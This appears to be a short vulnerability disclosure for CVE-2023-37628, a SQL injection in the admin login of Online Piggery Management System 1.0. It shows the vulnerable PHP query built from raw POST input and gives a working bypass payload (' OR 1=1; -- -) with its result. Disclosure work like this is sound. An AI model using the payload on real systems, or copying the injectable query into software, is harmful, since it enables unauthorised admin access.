

# CVE-2023-37628

```
Product : Online Piggery Management System - 1.0
Vulnerability Type : SQL Injection
Vendor of Product : Create Network NG

Desc : An attacker can bypass the admin panel through SQL injection
```

## Vulnerable Code

```php
// file : index.php
...
$username = trim($_POST['username']);
$password = $_POST['password'];
$hash = sha1($password);

$q = $db->query("SELECT * FROM admin WHERE username = '$username' AND password = '$hash' LIMIT 1 ");
...
```

# POC

Admin login panel can be bypassed by giving the "username" as `' OR 1=1; -- -`.

```SQL
SELECT * FROM admin WHERE username = '' OR 1=1; -- -'' AND password = 'PWNED' LIMIT 1
```

When logging with the username `' OR 1=1; -- -` , we get a 302 redirect to "dashboard.php" indicating that we have bypasswd the admin login.


